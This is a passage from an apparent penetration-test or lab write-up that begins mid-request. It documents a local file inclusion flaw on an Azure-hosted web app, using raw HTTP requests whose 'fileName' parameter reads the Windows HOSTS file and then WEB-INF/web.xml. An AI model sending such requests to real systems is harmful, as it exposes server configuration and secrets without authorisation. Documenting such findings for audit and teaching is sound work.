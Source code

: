 ```http
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://resourcespharmacorp.azurewebsites.net/home.jsp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=6DE249AF0036CC43E0E01D4A9C9EC4C2; ARRAffinity=1331943e6af8ea95358449d5173946244504d36925f260085d3f167b036468e4
Connection: close


```

- The output returns the contents of the file which means that the web app is vulnerable to LFI.
```http
<snip>

<pre style="color: white; background-color: #152036;"> Copyright (c) 1993-2009 Microsoft Corp.
#
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
#
# This file contains the mappings of IP addresses to host names. Each
# entry should be kept on an individual line. The IP address should
# be placed in the first column followed by the corresponding host name.
# The IP address and the host name should be separated by at least one
# space.
#
# Additionally, comments (such as these) may be inserted on individual
# lines or following the machine name denoted by a '#' symbol.
#
# For example:
#
#      102.54.94.97     rhino.acme.com          # source server
#       38.25.63.10     x.acme.com              # x client host

# localhost name resolution is handled within DNS itself.
#	127.0.0.1       localhost
#	::1             localhost
?</pre>

<snip>
```

- The auditor can leverage the LFI vulnerability to request the contents of the `WEB-INF/web.xml` file that contains the configuration for Java web applications.
```http
POST /main?action=getData&fileName=WEB-INF/web.xml HTTP/1.1
Host: resourcespharmacorp.azurewebsites.net
Content-Length: 0
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://resourcespharmacorp.azurewebsites.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.90 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://resourcespharmacorp.azurewebsites.net/home.jsp
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=6DE249AF0036CC43E0E01D4A9C9EC4C2; ARRAffinity=1331943e6af8ea95358449d5173946244504d36925f260085d3f167b036468e4
Connection: close


```
